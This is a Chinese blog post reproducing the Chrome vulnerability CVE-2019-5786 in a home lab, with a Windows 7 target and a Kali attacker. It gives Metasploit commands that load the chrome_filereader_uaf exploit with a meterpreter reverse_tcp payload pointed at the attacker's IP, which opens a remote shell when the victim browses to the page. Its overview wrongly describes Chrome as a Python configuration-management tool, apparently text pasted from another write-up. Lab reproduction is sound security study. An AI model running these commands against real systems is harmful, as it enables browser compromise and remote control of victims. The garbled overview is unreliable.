




# CVE-2019-5786 漏洞利用复现 - 一个李长兴 - 博客园

> 原文：[`www.cnblogs.com/Ziggy29/p/14709579.html`](https://www.cnblogs.com/Ziggy29/p/14709579.html)

# CVE-2019-5786 漏洞利用复现

> 机器 系统 ip 软件
> 
> 靶机 Win7x86 192.168.31.119 Chrome_(32bit)_v72.0.3626.119
> 
> 攻击机 kali 192.168.31.92

## 概述

**Chrome**:是基于 Python 开发的一套 C/S 架构配置管理工具，是一个服务器基础架构集中化管理平台，具备配置管理、远程执行、监控等功能，基于 Python 语言实现，结合轻量级消息队列（ZeroMQ）与 Python 第三方模块（Pyzmq、PyCrypto、Pyjinjia2、python-msgpack 和 PyYAML 等）构建。

**漏洞原因：**由于微软在 windows 7 上并未实现 win32k Lockdown 机制，因此 win7 系统中的 Chrome 沙盒并不能充分防御 win32k 漏洞的利用。攻击者利用该漏洞配合一个 win32k.sys 的内核提权（[CVE-2019-0808](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2019-0808) ）可以在 win7 上穿越 Chrome 沙箱。

**利用方法：**攻击者设置监听，欺骗受害者打开或重定向到特制网页，进入会话完成攻击。

## 配置靶机

先装个 x86 的 win7，我的版本是 cn_windows_7_enterprise_x86_dvd_x15-70737.iso（难得中文版能成功）



下载 Chrome 链接：[`dl.lancdn.com/landian/soft/chrome/m/，搜 72.0.3626.119 就行`](https://dl.lancdn.com/landian/soft/chrome/m/%EF%BC%8C%E6%90%9C72.0.3626.119%E5%B0%B1%E8%A1%8C)



之后安装 chrome，没啥好说的

## 攻击过程

攻击机端进入 msf 控制台，输入如下指令

```
use exploit/windows/browser/chrome_filereader_uaf
set payload windows/meterpreter/reverse_tcp
set URIPATH /
set LHOST 192.168.31.92
exploit 
```


靶机端开 cmd 输入`C:\Program Files\Google\Chrome\Application>chrome.exe --no-sandbox`以沙箱关闭的状态执行 chrome.exe，在地址栏输入地址`http://192.168.31.92:8080`



攻击机这边收到了会话，输入`sessions 1`进入会话 1 攻击成功



PS：注意在验收的时候动作快点，不然可能由于 Chrome 自动更新导致攻击无法实施

## 参考资料

[CVE-2019-5786 漏洞复现](https://www.freesion.com/article/9663504449/)
[CVE-2019-5786 Chrome 远程代码执行漏洞分析](https://paper.seebug.org/862/)